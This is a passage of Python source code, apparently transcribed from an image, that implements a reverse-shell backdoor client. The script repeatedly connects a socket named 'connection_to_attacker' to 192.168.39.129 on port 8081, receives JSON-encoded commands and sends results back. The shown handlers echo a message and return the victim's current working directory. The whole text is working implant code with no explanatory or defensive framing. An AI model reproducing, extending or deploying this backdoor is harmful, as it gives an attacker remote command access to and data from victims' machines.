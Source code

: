    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    while True:
        command = reliable_recv()
        if command == 'say':
            print("Hello World")
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                reliable_send(files)
            except:
                pass
        else:
            pass

def connection():
    while True:
        #random.randint(5,15)
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.39.129", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
